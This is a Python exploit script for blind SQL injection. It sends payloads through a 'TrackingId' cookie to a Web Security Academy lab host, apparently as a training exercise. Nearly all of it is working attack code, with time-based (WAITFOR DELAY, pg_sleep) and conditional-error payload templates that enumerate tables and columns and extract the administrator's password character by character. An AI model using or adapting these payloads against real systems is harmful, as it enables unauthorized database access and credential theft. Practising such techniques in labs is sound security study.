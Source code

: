 ```python=
#!/usr/bin/python3
# https://github.com/timip/exploit/blob/master/timeclock.py


import requests, string, sys
import urllib.parse

delay = 2

q = lambda pos, char, entry,col,table,ordercol,condition: f"'; IF LOWER(SUBSTRING((SELECT {col} FROM {table} WHERE {condition} ORDER BY {ordercol} OFFSET {entry} ROWS FETCH NEXT 1 ROWS ONLY),{pos},1))='{char}' WAITFOR DELAY '00:00:{delay}'; --"
# Tables
#query = lambda pos,char,entry: q(pos,char,entry,"TABLE_NAME","information_schema.TABLES","TABLE_NAME", "1=1") #"COL", "TABLE", "CONDITION")
# Columns
query = lambda pos,char,entry: q(pos,char,entry,"COLUMN_NAME","information_schema.COLUMNS","COLUMN_NAME", "TABLE_NAME='users'") #"COL", "TABLE", "CONDITION")
# Usernames
#query = lambda pos,char,entry: q(pos,char,entry,"password_hash","users","username", "1=1") #"COL", "TABLE", "CONDITION")

query = lambda pos,char,entry: f"' UNION SELECT 'a' FROM users WHERE username='administrator' AND substring(password, {pos},1)='{char}'--"
query = lambda pos,char,entry: f"' UNION SELECT (CASE WHEN (substr(password, {pos},1)='{char}') THEN 'a' ELSE CAST(1/0 AS CHAR) END) FROM users WHERE username='administrator'--"
#query = lambda pos,char,entry: f"';SELECT CASE WHEN (substring((SELECT password from users WHERE username='administrator'),{pos},1)='{char}') THEN pg_sleep(8) ELSE pg_sleep(0) END--"

print(query(1, 1, 1))
chars = string.ascii_letters + '0123456789' # + string.punctuation

print("Running!")

for e in range(0,100):
    for i in range(1, 100):
        found = False
        for c in chars:
            try:
                #r = requests.post("http://" + host + ":" + port + "/",data=payload(query(i,c,e)), timeout=delay)
                cookies = {'TrackingId': urllib.parse.quote_plus(query(i,c,e))}
                r = requests.get("https://0a1f009f03674b05c14cf690003f00c2.web-security-academy.net/", cookies=cookies, timeout=delay)
                if "Internal Server Error" not in r.text:
                    sys.stdout.write(c)
                    sys.stdout.flush()
                    found = True
                    break
                #print(r.text);exit()
                if e==0 and c == chars[-1] and i==1:
                    print(r.text)
                    exit()
            except requests.exceptions.Timeout:
                sys.stdout.write(c)
                sys.stdout.flush()
                found = True
                break
        if not found:
            break
    sys.stdout.write('\n')
 
print("\nDone! Try Harder!")
```